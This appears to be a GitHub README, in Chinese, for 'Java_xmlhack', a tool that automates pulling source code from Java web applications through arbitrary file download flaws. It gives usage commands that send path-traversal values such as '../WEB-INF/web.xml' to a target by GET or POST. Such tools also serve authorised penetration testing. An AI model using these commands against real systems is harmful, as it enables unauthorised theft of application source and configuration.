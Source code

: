 # Java_xmlhack
帮助java环境下任意文件下载情况自动化读取源码的小工具

## 想法

[关于Java任意文件读取的学习](https://art3mis.top/2019/04/04/%e5%85%b3%e4%ba%8ejava%e7%9a%84%e4%bb%bb%e6%84%8f%e6%96%87%e4%bb%b6%e8%af%bb%e5%8f%96/)

## 使用
```bash
git clone https://github.com/Artemis1029/Java_xmlhack.git
cd Java_xmlhack
# if get
python xmlsearch.py -u https://xxx.xxx/?file=../WEB-INF/web.xml -c="cookie"
# if post
python xmlsearch.py -u https://xxx.xxx/ -d="file=../WEB-INF/web.xml" -t="content-type(default application/x-www-form-urlencoded)" -c="cookie"
```
